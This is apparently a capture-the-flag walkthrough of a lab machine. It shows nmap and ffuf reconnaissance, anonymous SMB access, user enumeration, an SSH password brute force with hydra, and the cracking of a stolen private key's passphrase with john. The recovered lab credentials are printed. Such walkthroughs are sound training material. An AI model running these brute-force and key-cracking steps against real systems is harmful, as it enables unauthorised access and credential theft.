## TL;DR

First we find hidden endpoint using `ffuf`. Then, we enumerate users on SMB service using `enum4linux`, and brute force the password of user `jan` using `hydra`, to ssh login.
We find the private key of user `kay` and crack the passphrase the protects the private key, and then login to `kay` user, to get the password.

### Recon

we start with `nmap`, using this command:

```bash
nmap -p- -sVC --min-rate=10000 $target -oX nmap.xml -oN nmap.txt -Pn
```



As we can see, port `22` is opened with ssh, port `80` with apache http server, and port `139` and `445` for SMB, in this case `Samba`.

```bash
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 35:be:b1:8b:cf:64:a9:c2:74:aa:05:fb:ac:7c:9d:d9 (RSA)
|   256 be:91:e7:8e:35:cd:5b:b3:cd:ec:ec:f0:26:b2:04:46 (ECDSA)
|_  256 27:12:10:0d:ac:22:42:40:b1:05:28:8a:63:60:38:e2 (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.41 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 4
445/tcp open  netbios-ssn Samba smbd 4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-11-13T10:58:27
|_  start_date: N/A
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
```

### Find hidden development endpoint

When we check the content on the root page, we can see it tell us to check for the "dev not section"

```bash
┌──(agonen㉿kali)-[~/thm/BasicPentesting]                                                                                                        
└─$ curl http://$target/ -i                                                                                                                      
HTTP/1.1 200 OK                                                                                                                                  
Date: Thu, 13 Nov 2025 11:02:56 GMT                                                                                                              
Server: Apache/2.4.41 (Ubuntu)                                                                                                                   
Last-Modified: Mon, 23 Apr 2018 17:06:40 GMT                                                                                                     
ETag: "9e-56a870fbc8f28"                                                                                                                         
Accept-Ranges: bytes                                                                                                                             
Content-Length: 158                                                                                                                              
Vary: Accept-Encoding                                                                                                                            
Content-Type: text/html                                                                                                                          
                                                                                                                                                 
<html>                                                                                                                                           
                                                                                                                                                 
<h1>Undergoing maintenance</h1>                                                                                                                  

<h4>Please check back later</h4>

<!-- Check our dev note section if you need to know what to work on. --> 


</html>
```



So, I used `ffuf` to brute force hidden endpoints
```bash
┌──(agonen㉿kali)-[~/thm/BasicPentesting]
└─$ ffuf -u "http://$target/FUZZ" -w /usr/share/SecLists/Discovery/Web-Content/common.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.12.124/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 106ms]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 113ms]
.hta                    [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 113ms]
development             [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 100ms]
index.html              [Status: 200, Size: 158, Words: 20, Lines: 11, Duration: 99ms]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 108ms]

```
We find the endpoint `development`.



Then, we go to this website, and that's what we can see:

At `http://10.10.12.124/development/j.txt` we can see this message:



At `http://10.10.12.124/development/dev.txt` we can see this message:



### enumerate SMB users and brute force jan password

We want to enumerate the `SMB` service, so let's execute this:

Next we enumerate shares:
```bash
netexec smb $target -u 'guest' -p '' --shares
```



Apparently we can see the shares anonymously.
We'll use `smbclient` with flag `-N` to note we login anonymously.

```bash
┌──(agonen㉿kali)-[~/thm/BasicPentesting]
└─$ smbclient -N \\\\$target\\Anonymous
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Apr 19 20:31:20 2018
  ..                                  D        0  Thu Apr 19 20:13:06 2018
  staff.txt                           N      173  Thu Apr 19 20:29:55 2018

                14282840 blocks of size 1024. 6399796 blocks available
smb: \> get staff.txt 
getting file \staff.txt of size 173 as staff.txt (0.5 KiloBytes/sec) (average 0.5 KiloBytes/sec)
```

The message at `staff.txt` don't give us anything interesting.



Next, we want to enumerate users, so we'll use the based in linux utl `enum4linux`.

```bash
enum4linux $target
```
We find 3 local users:
```bash
kay
jan
ubuntu
```



Let's try to brute force login to ssh using `hydra`
```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://$target -t 4
```

It took some time, but at the end we find the password `armando` for the user `jan`.



So, we can use these credentials to login via `ssh`:
```bash
jan:armando
```



### Find private kay of kay, crack the passphrase and login to kay

When executing linpeas using `run peass_ng` in `penelope`, we can find teh private key of user `kay`, at the location of `/home/kay/.ssh/id_rsa`



I downloaded the private key and tried to connect via `ssh`.
Of course you need to change the permissions of the private key to modified only by owner, using this line
```bash
chmod 700 id_rsa
```
The problem is that it is requiring passpharse, which I don't have.



So, I used `john` and `ssh2john` to crack the hash.



```bash
┌──(agonen㉿kali)-[~/thm/BasicPentesting]
└─$ ssh2john id_rsa > hashes.txt
                                                                                                                                       
┌──(agonen㉿kali)-[~/thm/BasicPentesting]
└─$ john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (id_rsa)     
1g 0:00:00:00 DONE (2025-11-13 14:48) 20.00g/s 1654Kp/s 1654Kc/s 1654KC/s behlat..bball40
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

We got the passphrase which is `beeswax`.

Now we can login again via `ssh` to `kay`, this time with the passphrase `beeswax`.



And now we can grab the final password:
```bash
kay@ip-10-10-12-124:~$ ls
pass.bak
kay@ip-10-10-12-124:~$ cat pass.bak 
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```
